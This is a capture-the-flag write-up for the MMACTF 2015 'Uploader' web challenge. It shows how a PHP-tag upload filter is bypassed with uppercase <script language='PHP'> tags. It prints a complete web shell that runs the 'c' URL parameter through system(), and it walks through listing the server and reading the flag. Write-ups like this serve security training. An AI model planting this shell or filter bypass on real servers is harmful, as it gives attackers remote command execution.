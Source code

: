 # Uploader (Web, 100pts)

---

## Problem

This uploader deletes all /<\?|php/. So you cannot run php.

http://recocta.chal.mmactf.link:9080/

http://recocta.chal.mmactf.link:9081/ (Mirror 1)

http://recocta.chal.mmactf.link:9082/ (Mirror 2)

http://recocta.chal.mmactf.link:9083/ (Mirror 3)


You can only upload files whose name is matched by /^[a-zA-Z0-9]+\.[a-zA-Z0-9]+$/.

## Solution

Web page contains only one simple upload form:

![Uploader task]
(https://github.com/bl4de/ctf/blob/master/MMACTF_2015/uploader1.png)

Each file is accesible after uploading, so we can try to upload some simple shell to find the flag, which should be placed somewhere on the server.

As we can't use regular PHP script tags, so we have to find another way to upload PHP shell and execute it.
We can use _script_ tag with language set to PHP (we are using uppercases here as lower cases are deleted):
	
```html
<!-- 
file: blade.php
https://github.com/bl4de/ctf/blob/master/MMACTF_2015/blade.php
-->

<form action="" method="get"><textarea name="c" rows="10" cols="80">
	<script language="PHP"> 
		if (isset($_GET['c'])) {echo $_GET['c'];}
	</script>
</textarea><button type="submit">go</button></form><hr /><div><p>Result of <strong>
	<script language="PHP"> 
		if(isset($_GET['c'])){echo $_GET['c'];}
	</script>
</strong></p><pre>

<script language="PHP"> 
	$output="";if (isset($_GET['c'])){$output=@system($_GET['c']);};
</script>
</pre>
</div>	
```

This won't work in the future versions of PHP, as from PHP 7 ASP tags and _script_ tags will be removed.


After uploading the shell, let's take a look around:

![ls -lA executed in /]
(https://github.com/bl4de/ctf/blob/master/MMACTF_2015/uploader2.png)

We can see file named _flag_ in the root directory of the server.

We can execute _cat flag_ command via the shell and catch the flag:

![Flag]
(https://github.com/bl4de/ctf/blob/master/MMACTF_2015/uploader3.png)


## Links

http://php.net/manual/en/language.basic-syntax.phptags.php
